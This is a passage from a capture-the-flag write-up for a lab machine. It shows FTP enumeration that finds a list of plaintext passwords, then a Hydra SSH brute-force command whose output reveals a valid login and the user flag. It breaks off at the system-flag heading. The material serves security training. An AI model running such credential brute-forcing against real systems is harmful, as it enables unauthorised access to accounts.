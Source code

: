 So, lets try using burpsuite, and voi la, it works, but after researching, we haven't any interesting thing.

Now, we tried with the FTP, and we get two usernames and some interesting files:
Note: The complete log of the FTP actions I did is in the "ftp.log" file. 

These are the files I found:
```
>>> Confidential.txt 
	Nathan,

	I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

	Regards

	Nadine
>>> Notes\ to\ do.txt 
	1) Change the password for NVMS - Complete
	2) Lock down the NSClient Access - Complete
	3) Upload the passwords
	4) Remove public access to NVMS
	5) Place the secret files in SharePoint

>>> Passwords.txt
	1nsp3ctTh3Way2Mars!
	Th3r34r3To0M4nyTrait0r5!
	B3WithM30r4ga1n5tMe
	L1k3B1gBut7s@W0rk
	0nly7h3y0unGWi11F0l10w
	IfH3s4b0Utg0t0H1sH0me
	Gr4etN3w5w17hMySk1Pa5$
```

So let's use this passwords with both users:

```
>>> kali@kali:~/CTFs/testing$ hydra -l Nadine -P passwords.txt ssh://10.10.10.184
	Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-21 23:31:18
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
	[DATA] attacking ssh://10.10.10.184:22/
	[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-21 23:31:20
```

Got user flag!

## The System flag
This is the worst part of the box, because of many falls of the webservice.

